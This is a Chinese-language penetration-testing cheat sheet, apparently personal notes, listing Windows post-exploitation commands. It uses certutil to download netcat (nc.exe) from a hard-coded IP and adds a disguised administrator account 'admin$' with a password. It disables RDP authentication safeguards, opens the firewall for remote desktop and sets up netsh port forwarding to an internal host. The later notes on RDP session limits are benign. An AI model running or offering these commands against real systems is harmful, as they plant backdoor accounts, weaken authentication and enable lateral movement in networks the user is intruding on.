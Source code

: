 

## 下载文件

certutil -urlcache -split -f http://11.1.63.39/nc.exe
## 渗透后置操作

```bash
net user admin$ tuser321 /add
net localgroup administrators admin$ /add
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer" /v fDenyTSConnections /t REG_DWORD /D 0 /f
echo port number is 
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

gpupdate /force
# 查看开了哪些端口
netstat -aon
```

## FAQ
###  终端服务器超过最大允许连接数
远程桌面界面，在地址栏上 1.1.58.58:65535 /admin

或cmd `mstsc /admin /v:1.1.58.58:65535` ,  此方式不能操作剪贴版
### 终端操作
```
qwinsta 查询连接
query session
tsdiscon rdp-tcp#946
rwinsta <id>关闭连接
```

## TODO
1.TODO: 终端服务器超过最大允许连接数 修改
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 3 /f
# https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_MAX_CON_POLICY
tsadmin 可看连接
```
## 端口转发
win7以上
```bash
netsh interface portproxy add v4tov4 listenport=4546 connectaddress=1.1.58.59 connectport=1521
netsh interface portproxy delete v4tov4 listenport=4546 listenaddress=1.1.58.58
netsh interface portproxy reset
```
